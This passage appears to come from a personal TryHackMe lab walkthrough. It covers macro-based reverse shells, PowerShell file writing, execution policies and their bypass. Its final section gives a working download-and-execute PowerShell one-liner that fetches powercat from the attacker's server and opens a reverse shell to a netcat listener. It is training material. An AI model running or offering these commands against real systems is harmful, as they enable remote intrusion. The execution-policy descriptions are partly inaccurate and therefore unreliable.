 ```
run or exploit
```
7. Go back to your windows box and run your macro. 
9. Go back to your linux box and you should have established a connection. 


![poison change workbook to document for office word](https://github.com/ryangreggw/THM-BOXES/assets/25268281/3197ccdd-a553-49a7-8ca2-2d9dd45c8e35)

![windows listener with msfconsole](https://github.com/ryangreggw/THM-BOXES/assets/25268281/2e55f37d-71af-4369-ba9c-5955d7fbadba)


***#POWERSHELL (PS)***
1. THM says to write something and save it as a file in powershell but completely skips over how to do this. Maybe you all know how to do that but I certainly did not. Here's how: 
2. 
- Create the file using a variable:  
   - ```$filepath = "thm.ps1"```
- Now, utilizing another variable, we we'll produce the content for the file we just created: 
   - ```$command = "whatever you want to put in the file"```
- Last, we'll save the file content to the file.  
   - ```out-file -filepath $filepath -inputobject $command```
- Now, read your file. 
     - ```type <file_name>```

![powershell writing output to a file command](https://github.com/ryangreggw/THM-BOXES/assets/25268281/1f260fa7-c8c0-47ef-9fed-d42f628cedb7)

***#POWERSHELL EXECUTION POLICY: This is done in PS although THM has screen shots of command prompt?*** 
- To figure out what execution policy setting is currently in effect use: 
  - ```get-executionpolicy```
- To change the execution policy: 
  - ```set-executionpolicy -scope currentuser remotesigned```
        - What this means is that we are setting the execution policy to only apply to the current user. The "remotesigned" portion means that PS will only run scripts that are signed by a trusted publisher. 
        - There are 4 different execution policies:   
          1. Restricted: prevent any/all scripts from running
          2. AllSigned: all scripts trusted by a publisher can be ran. 
          3. RemoteSigned: scripts can be ran if they are signed by a trusted published or downloaded from the internet. 
          4. Unrestricted: all scripts can be ran. 
***#BYPASS EXECUTION POLICY***
- Setting a bypass policy makes it so that nothing is blocked or restricted.
  - ```powershell -ex bypass -file <file_name>``` 
- I honestly don't know what this was supposed to do in the context of what we're doing in THM because PS already let me run the ps1 file I created. 

***#BYPASS EXECUTION POLICY: POWERCAT***
- Download the powercat file: 
  - ```git clone https://github.com/besimorhino/powercat.git```
- Move into the powercat directory: 
  - ```cd powercat```
- Set up a webserver: 
  - ```python3 -m http.server <port#>```
- Set up a listener on your machine: 
  - ```nc -lvnp <port#>```
- Execute powercat on your windows box in PS: 
  - ```powershell -c "IEX(New-ObjectSystem.Net.WebClient).DownloadString('http://<your ip address>:<port#>/powercat.ps1'); powercat -c <your ip> -p <listener port#> -e cmd"```
